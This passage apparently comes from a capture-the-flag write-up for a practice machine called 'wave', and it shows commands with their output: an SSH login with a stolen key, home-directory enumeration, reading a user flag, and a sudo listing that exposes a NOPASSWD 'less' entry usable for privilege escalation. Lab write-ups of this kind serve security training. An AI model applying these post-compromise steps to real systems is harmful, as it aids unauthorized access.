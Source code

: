 `ssh angie@192.168.56.121 -i /tmp/id_rsa`:
```
Linux wave 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep  5 11:14:50 2023 from 192.168.0.100
```

![Victim: angie](https://img.shields.io/badge/Victim-angie-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
angie ←
```

`cd /home/angie`

`ls -alps`:
```
total 688
  4 drwx------ 5 angie angie   4096 sep 23 16:14 ./
  4 drwxr-xr-x 4 root  root    4096 sep  4  2023 ../
  0 lrwxrwxrwx 1 angie angie      9 sep  4  2023 .bash_history -> /dev/null
  4 -rw-r--r-- 1 angie angie    220 sep  4  2023 .bash_logout
  4 -rw-r--r-- 1 angie angie   3526 sep  4  2023 .bashrc
632 -rw-r--r-- 1 angie angie 646042 sep  2  2023 copyparty-sfx.py
  4 drwxr-xr-x 2 angie angie   4096 sep 23 16:29 .hist/
  4 drwxr-xr-x 3 angie angie   4096 sep  4  2023 .local/
  4 -rw-r--r-- 1 angie angie    807 sep  4  2023 .profile
  4 -rw-r--r-- 1 angie angie     66 sep  4  2023 .selected_editor
  4 drwxr-xr-x 2 angie angie   4096 sep 23 16:28 .ssh/
  4 -rw------- 1 angie angie     24 sep  4  2023 user.txt ←
  4 -rw-r--r-- 1 angie angie    165 sep  4  2023 .wget-hsts
  4 -rw------- 1 angie angie     50 sep  5  2023 .Xauthority
```

`cat ./user.txt`:
```
HMVIdsEwudDxJDSaue32DJa ←
```

`sudo -l`:
```
Matching Defaults entries for angie on wave:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User angie may run the following commands on wave:
    (ALL) NOPASSWD: /usr/bin/less -F /opt/secret.txt ←
```
